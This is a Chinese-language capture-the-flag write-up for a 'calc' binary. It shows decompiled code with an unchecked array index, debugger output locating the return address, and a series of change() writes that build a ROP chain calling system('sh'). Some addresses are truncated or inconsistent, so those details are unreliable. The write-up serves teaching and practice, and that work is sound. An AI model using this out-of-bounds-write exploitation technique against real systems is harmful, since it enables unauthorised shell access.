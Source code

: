0.retn操作：先eip=esp，然后esp=esp+4
retn N操作：先eip=esp，然后esp=esp+4+N

还有关于利用gadget修改寄存器的操作，这种一般都是"gadget地址"+“要修改寄存器的值”+“下一个地址”
这里的流程是：
原函数返回–>程序指向gadget地址–>这个地址出栈–>进入gadget–>从中pop，寄存器值被修改，栈中值出栈–>返回地址

1、打开IDA，按下F5，大致流程如下：
int __cdecl main(int argc, const char **argv, const char **envp)
{
  //打印信息
  puts("***********************************************************");
  puts("*                      An easy calc                       *");
  puts("*Give me your numbers and I will return to you an average *");
  puts("*(0 <= x < 256)                                           *");
  puts("***********************************************************");
  //输入数字个数
  puts("How many numbers you have:");
  __isoc99_scanf("%d", &v5);
  //将输入的数字放于数组中
  puts("Give me your numbers");
  //简化处理
  while（1）
  {
	puts("1. show numbers\n2. add number\n3. change number\n4. get average\n5. exit");
        __isoc99_scanf("%d", &v6);
	if(v6==1)
	{
		 puts("id\t\tnumber");
        	 for ( k = 0; k < j; ++k )
         		 printf("%d\t\t%d\n", k, v13[k]);
	}
	if(v6==2)
	{
		puts("Give me your number");
          	__isoc99_scanf("%d", &v7);
          	if ( j <= 0x63 )
          	{
            		v3 = j++;
            		v13[v3] = v7;
         	 }	
	}
	if(v6==3)
	{
		puts("which number to change:");
      		__isoc99_scanf("%d", &v5);
      		puts("new number:");
      		__isoc99_scanf("%d", &v7);
      		v13[v5] = v7;
	}
	if(v6==4)
	{
		 v9 = 0;
    		 for ( l = 0; l < j; ++l )
     			 v9 += v13[l];
	}
		
  }
1、值得注意的是当输入3进行change number的时候，直接将v7赋值给数组v13[v5]，没有对v5进行范围检查，从而会造成ROP攻击。
   为此，我们需要知道栈顶距离返回地址的位置，才能在主函数返回时，直接执行我们的shellcode。
   按照writeup，下了两个断点，分别是在给v13数组赋初值和返回retn的时候。
   为此，下两个断点，分别是0x80486D5和0x80488F2。
   *EAX  0xffffd138 ◂— 0x1(数组的首地址)。
   *ESP  0xffffd1bc —▸ 0xf7df1ef1 (__libc_start_main+241) ◂— add    esp, 0x10(函数的返回地址)//当函数运行到return语句的时候，栈顶一定是返回地址。
   0xffffd1bc-0xffffd138=0x84。
2、使用UE，寻找sh字符串的地址，发现sh的地址为0x
   change(0x84, 0x50)
   change(0x85, 0x84)
   change(0x86, 0x04)
   change(0x87, 0x08)//system的plt地址：0x804850
   change(0x8c, 0x87)
   change(0x8d, 0x89)
   change(0x8e, 0x04)
   change(0x8f, 0x08)//sh字符串的地址：0x8048980
2、左边的函数中有hackhere函数，但是实际上服务器没有bash的选项，该函数是干扰项，不过需要字符串“sh”。

